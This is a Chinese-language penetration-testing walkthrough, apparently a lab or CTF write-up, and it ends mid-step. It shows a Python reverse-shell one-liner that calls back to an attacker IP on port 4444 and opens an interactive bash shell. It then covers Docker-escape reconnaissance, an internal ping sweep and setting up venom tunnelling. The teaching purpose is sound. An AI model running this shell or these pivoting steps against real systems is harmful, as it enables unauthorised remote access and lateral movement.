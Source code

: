   1. 打开本地监听，上传payload（这个payload只包含python只带的payload）,可以看到反弹成功.

       ```python
       import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.195.170",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
       ```

       <img src="http://image.cchl.fun/kali_image/image-20230515164157096.png" alt="image-20230515164157096" style="zoom: 50%;" />

## 信息的收集：第二次

   1. 进行相关数据，权限的收集。通过浏览常规的信息我们发现。我们反弹拿下的用户为app==,它就是root权限==。这是非常不应该的，所以我们可以猜为可能是存在5000端口的http服务不是部署在真实的ubuntu上，而是通过docker等虚拟化容器进行实现的部署。

       所以我们接下来的目标就是从这个隔离的docker中进入的真实的靶机换进中。

       <img src="http://image.cchl.fun/kali_image/image-20230515173129285.png" alt="image-20230515173129285" style="zoom:50%;" />

       哪我们如何查看我们进入的是否为docker容器？

       1. [cat /proc/1/cgroup](#docker_finder_1)                                            [==点击进行跳转解释==	](#docker_finder_1)					<a id='back1'></a> 

           来查看，如果出现相关的docker回显，就可以百分之百的确定为登陆的是docker用户

       2. ls /.dockerenv

           如果存在该文件，八九不离十为docker容器。

   2. 可通过ip a来进行查看ip：ip a 是ip address命令的缩写相当于ip addr。我们通过查看给命令，可以进一步验证我们是出于docker中的猜想（ip和我们nmap扫到的是不一致的，相当于我们出于在内网之中，所以我们需要进行内网的渗透，来进行获取内网中其它主机的信息和相关的shell。==这就是思路，注意，注意！！！！==）

       <img src="http://image.cchl.fun/kali_image/image-20230515180802639.png" alt="image-20230515180802639" style="zoom:50%;" />

   3. 如何发现相关主机呢？最简单的就是进行ping。由于我们kali中的工具是无法探测到连接靶机所在的内网，所以有两种方法：1，建立隧道            2，在靶机上编写本地的扫描脚本                                 [==点击相关说明==](#chen)                  <a id='back2'></a>

       ```bash
       for i in $(seq 1 10); do ping -c 2 172.17.0.$i; done
       ```

       执行后可以发现有两个内网主机

       <img src="http://image.cchl.fun/kali_image/image-20230515181533703.png" alt="image-20230515181533703" style="zoom:50%;" />

   4. 由于是内网渗透我们需要是使用隧道代理技术，使用已经编译好（release）的venom渗透工具

          1. venom中admin都是运行在kali上来启动监听的，类似于nc                                                  [==工具使用说明==](#back5)<a id='tag5'></a>

              <img src="http://image.cchl.fun/kali_image/image-20230515190626568.png" alt="image-20230515190626568" style="zoom: 50%;" />

   5. 这一步包含三个信息：

          1. kali通过python开启http服务来是venom的相关文件可以被靶机获取。
